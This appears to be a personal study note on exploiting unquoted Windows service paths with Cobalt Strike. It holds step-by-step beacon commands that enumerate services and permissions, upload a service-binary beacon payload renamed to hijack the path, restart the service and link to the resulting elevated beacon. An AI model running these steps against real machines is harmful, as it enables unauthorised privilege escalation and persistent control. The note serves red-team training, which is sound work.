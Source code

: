 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Unquoted Service Paths]]  
___

## Description:  
A Windows "service" is a special type of application that is usually started automatically when the computer boots.

**Look for a service that has both spaces in the path and is unquoted.

You can see the services installed on a machine by opening **services.msc**, or via the **sc** command line tool.

```
C:\>sc query

SERVICE_NAME: Appinfo
DISPLAY_NAME: Application Information
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

SERVICE_NAME: AudioEndpointBuilder
DISPLAY_NAME: Windows Audio Endpoint Builder
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Or the **Get-Service** PowerShell cmdlet.

```
PS C:\> Get-Service | fl

Name                : AJRouter
DisplayName         : AllJoyn Router Service
Status              : Stopped
DependentServices   : {}
ServicesDependedOn  : {}
CanPauseAndContinue : False
CanShutdown         : False
CanStop             : False
ServiceType         : Win32ShareProcess

Name                : ALG
DisplayName         : Application Layer Gateway Service
Status              : Stopped
DependentServices   : {}
ServicesDependedOn  : {}
CanPauseAndContinue : False
CanShutdown         : False
CanStop             : False
ServiceType         : Win32OwnProcess

```


An unquoted service path is where the path to the service binary is not wrapped in quotes.

WMI can be used to pull a list of every service and the path to its executable well using CobaltStrike.

```
beacon> run wmic service get name, pathname

Name                                      PathName
ALG                                       C:\Windows\System32\alg.exe
AppVClient                                C:\Windows\system32\AppVClient.exe
AmazonSSMAgent                            "C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"
[...snip...]
Vuln-Service-1                            C:\Program Files\Vuln Services\Service 1.exe

```


When Windows attempts to read the path to this executable, it interprets the space as a terminator. So it will attempt to execute the following (in order):

1.  `C:\Program.exe`
2.  `C:\Program Files\Vuln.exe`
3.  `C:\Program Files\Vuln Services\Service.exe`

If we can drop a binary into any of those paths, the service will execute it before the real one.

The PowerShell **Get-Acl** cmdlet will show the permissions of various objects (including files and directories).

```
beacon> powershell Get-Acl -Path "C:\Program Files\Vuln Services" | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\Vuln Services
Owner  : BUILTIN\Administrators
Group  : WKSTN-1\None
Access : CREATOR OWNER Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  Write, ReadAndExecute, Synchronize
         NT SERVICE\TrustedInstaller Allow  FullControl
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize

```

Add a new listener and select beacon TCP (I didnt check the bind to localhost checkbox, i am not sure when you would use this).

Payloads to abuse services must be specific "service binaries". We can do this in Cobalt Strike via **Attacks > Packages > Windows Executable (S)** and selecting the **Service Binary**  (windows service EXE) output type .

It's usually better to use a listener that is bound to the local host.

```
beacon> cd C:\Program Files\Vuln Services
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 5kb      fil     02/23/2021 15:04:13   Service 3.exe

beacon> upload C:\Payloads\beacon-tcp-svc.exe
beacon> mv beacon-tcp-svc.exe Service.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------        ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 5kb      fil     02/23/2021 15:04:13   Service 3.exe
 282kb    fil     03/03/2021 11:11:27   Service.exe

beacon> run sc stop Vuln-Service-1
beacon> run sc start Vuln-Service-1
# might have to wait for a reboot if you dont have stop/start permissions
```

You will not see a Beacon appear automatically. When the service has been started and the Beacon executed, you should see that port you used in your TCP listener configuration (in my case **4444**) is listening on **127.0.0.1**.

```
beacon> run netstat -anp tcp
[...snip...]
TCP    127.0.0.1:4444         0.0.0.0:0              LISTENING
```

The Beacon is waiting for us to connect to it, which we do with the **connect** command.

```
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.17.231

```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (09:17 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
